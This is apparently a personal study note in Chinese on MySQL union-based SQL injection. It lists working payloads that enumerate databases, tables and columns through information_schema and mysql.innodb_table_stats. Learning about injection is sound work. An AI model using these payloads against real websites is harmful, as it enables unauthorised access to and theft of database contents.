 基本原理都是利用[[group_concat]]以及mysql的**元数据库**或**元表格**

下面假设查询结果为三个字段，且注入点为2

---
# 使用`imformation_schema`数据库
## 爆库
### 获取当前数据库
```sql
1' union select 1,database(),3;#
```
### 爆出所有数据库
```sql
1' union select 1,group_concat(schema_name),3 from information_schema.schemata;#
```
## 爆表
```sql
1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='<database_name>';#
```
## 爆字段
```sql
1' union select 1,group_concat(column_name),3 from information_schema.columns where table_name='<table_name>';#
```

---
# 使用`mysql.innodb_table_stats`表

![[Pasted image 20221125170222.png]]
## 爆库
```sql
1' union select 1,group_concat(database_name),3 from mysql.innodb_table_stats#
```

## 爆表
```sql
1' union select 1,group_concat(table_name),3 from mysql.innodb_table_stats#
```

#Web #SQL注入 #联合注入 